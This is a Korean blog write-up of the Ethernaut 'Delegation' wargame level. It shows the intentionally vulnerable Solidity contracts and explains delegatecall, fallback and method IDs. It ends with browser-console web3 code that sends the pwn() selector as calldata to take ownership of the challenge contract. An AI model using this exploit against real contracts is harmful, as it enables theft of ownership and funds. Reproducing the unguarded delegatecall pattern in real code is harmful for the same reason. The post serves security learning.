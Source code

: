 ```yaml
---
emoji: 🧢
title: (Ethernaut 취약점 6) Delegation  
date: '2022-01-07 20:26:00'
author: 한성원
tags: ethernaut Token vulnerability
categories: 취약점분석
---
```



# 👋 1. Delegation
__Difficulty 4/10__

- 승리 조건
- 코드 분석
- 풀이
순서로 진행 될 것이다.

- - -

## 승리 조건
- instance의 ownership을 가져오면 승리한다.

- - -

## 코드 분석
분석은 주석에!

```solidity

contract Delegate {
    // owner의 contract
    address public owner;
    
    // constructor: set parameter _owner as owner of contract
    constructor(address _owner) public {
        owner = _owner;
    }
    
    //set msg.sender as owner
    function pwn() public {
        owner = msg.sender;
    }
}

contract Delegation {
    // owner of contract
    address public owner;
    // Delegate contract
    Delegate delegate;
    
    //constructor with parameter delegate contract address
    constructor(address _delegateAddress) public {
        // set delegate as Delegate contract address
        delegate = Delegate(_delegateAddress);
        // set owner as deployer
        owner = msg.sender;
    }

    //fallback function
    fallback() external {
        //delegate에 delegatecall을 보낸다. 
        (bool result,) = address(delegate).delegatecall(msg.data);
        if (result) {
            this;
        }
    }
}
```
- - -

## 풀이
이 문제에서 우리의 목표는 ownership을 가져오는 것이다.

만약 우리가 가지고 있다면 우선 여기서 말해주는 힌트를 보자!
1. delegatecall
2. Fallback function
3. method id
를 알면 도움이 될 것이라고 말한다. 

### Delegate Call
delegate call은 일전에 내가 취약점 시리즈에서 다룬 적 있다! solidity official docs와 내 글을 보면 이해가 될 것이다.
[DelegateCall](https://holyhansss.github.io/vulnerability/delegate_call/delegate_call/) <= Click
[Solidity Docs](https://docs.soliditylang.org/en/v0.8.10/introduction-to-smart-contracts.html) <= Click

### fallback 
Fallback 함수는 contract에서 함수를 실행시킬때 함수가 존재하지 않는다면 실행되는 function이다.

### method id
This is derived as the first 4 bytes of the Keccak hash of the ASCII form of the signature
즉 4 byte의 Keccak hash라고 생각하면 된다.

우리가 owner를 가져오기 위한 시나리오는 이렇다.
1. pwn()를 4 byte의 keccak hash로 하나의 변수에 저장한다.
2. Delegation contract에 1번에서 만든 변수를 data로 지정하고 transaction을 보낸다.
3. Delegation contract의 owner를 확인해본다.

모든 코드는 console창에서 이루어진다. 
ctrl + shift + i를 눌러 console창을 활성화 시키자
```javascript
// 기존의 owner를 확인한다.
await contract.owner()

// web3 library를 사용한다.
// encodePwn라는 변수에 pwn()을 4 byte keccak hash로 변형해 저장한다.
const encodePwn = web3.eth.abi.encodeFunctionSignature("pwn()")

// Delegation contract의  fallback function을 call한다. 
await contract.sendTransaction({data: encodePwn})

// owner가 자신인 것을 확인한다.
await contract.owner()
```

완료 후 ethernaut으로 돌아와 Submit instance를 누르고 조금 기다리면 block이 mine되고, 아래와 같이 뜨며 마무리된다.
```
٩(- ̮̮̃-̃)۶ Well done, You have completed this level!!!
```
- - -
## 마무리
delegatecall 은 low level function이라 아직 내가 완벽하게 이해했다고 말할 수는 없을 것 같다. ethernaut을 다 풀어본 후에 EVM에 대해 좀 더 깊히 배워야겠다는 생각이 든다. 왜냐면 나는 그냥 smart contract 개발자가 아닌 auditor가 되고싶기 때문이다!!!! 앞으로도 화이팅하자!


- - -
## 기타 정보
- rinkeyb network ether faucet: https://faucets.chain.link/rinkeby
- ethernaut: https://ethernaut.openzeppelin.com/
- remix IDE: https://remix.ethereum.org
- DelegateCall 취약점 :https://holyhansss.github.io/vulnerability/delegate_call/delegate_call/
- Solidity Docs delegate call: https://docs.soliditylang.org/en/v0.8.10/introduction-to-smart-contracts.html

```toc

```